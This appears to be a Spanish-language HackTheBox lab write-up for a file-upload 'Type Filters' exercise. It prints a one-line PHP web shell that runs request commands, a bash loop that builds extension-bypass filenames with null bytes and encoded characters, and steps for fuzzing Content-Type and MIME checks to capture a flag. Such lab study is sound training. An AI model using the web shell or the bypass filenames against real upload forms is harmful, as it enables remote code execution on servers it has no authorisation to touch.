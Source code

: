 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- Descargamos la wordlist y filtramos sólo por content-type relacionados a imágenes:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Nota: `/image/jpg` no está en la lista.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

## Ejercicio

Hacemos fuzzing de `Content-Type` header para ver qué tipos son permitidos:
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)

![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)

Tenemos que sólo son permitidos los siguientes tipos:
- image/gif
- image/jpeg
- image/png


De forma manual sabemos que también permite `image/jpg`.


Ahora testeamos el `file content` utilizando `magic bytes` para conocer los `MIME Types` permitidos:
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)



Intentamos subir la web shell con la extensión `.php` y el servidor nos responde `Extension not allowed`:
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)

Sabemos que tenemos blacklist and whitelist. Hacemos fuzzing de whitelist con common web extensions de Seclists, para investigar si se permite alguna extensión además de las extensiones de imágenes:
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)
No hay ninguna extensión web adicional que esté incluida en la whitelist.
Sabemos que el servidor está validando extensiones a través de una blacklist, que contiene bastantes tipos de extension `.php`, en este caso, el servidor contesta con el mensaje `Extension not allowed`.
Cuando la validación se realiza a través de la whitelist, el servidor responde `Only images are allowed`.

Realizaremos un fuzzing de extensiones, con una custom wordlist que contiene distintos payloads para baypasear tanto whitelist como blacklist, utilizamos el siguiente script para realizar la wordlist:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



Vemos que varias extensiones pudieron ser subidas.
Hacemos una petición para visualizar los archivos, y realizamos fuzzing con la misma wordlist, de modo tal que probará acceder también a los archivos subidos previamente:
![image](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)


Entre todas las que pudimos subir previamente y podemos acceder (status code 200), sólo algunas puede interpretar el código:
![image](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)


Ahora enviamos la web shell:
![image](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Accedemos al archivo previamente cargado:
![image](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)
Obtenemos la flag y resolvemos el lab:
![image](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)






